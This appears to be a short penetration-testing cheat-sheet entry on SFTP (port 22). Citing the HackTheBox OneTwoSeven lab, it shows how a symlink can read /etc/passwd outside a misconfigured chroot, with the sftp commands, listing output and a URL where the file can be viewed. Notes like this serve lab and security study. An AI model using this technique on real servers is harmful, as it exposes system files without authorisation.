

# Port 22 - SFTP
SFTP stands for SSH File Transfer Protocol or Secure File Transfer Protocol.
It's basically an encrypted version of FTP.
Log in
sftp john@10.10.10.133## symlink - Read files outside of directory
Examples• hackthebox OneTwoSeven
You might be able to symlink to retrieve/read files outside of the ftp directory if chroot isn't set up properly.
(chroot changes the “root” of the file system, e.g. to something like
/tmp/sftp, so the user can't access files outside of
/tmp/sftp)
You have to symlink to a file that doesn't already exist.
Symlink
/etc/passwd to
sym1.txtsftp> symlink /etc/passwd sym1.txt
sftp> ls -l
-rw-r--r-- 1 1001 1001 349 Feb 15 21:03 index.html
lrwxrwxrwx 1 1001 1001 11 Jul 3 16:54 sym1.txt
And view the file here -
http://onetwoseven.htb/~ots-mM2Y3Y2U/sym1.txt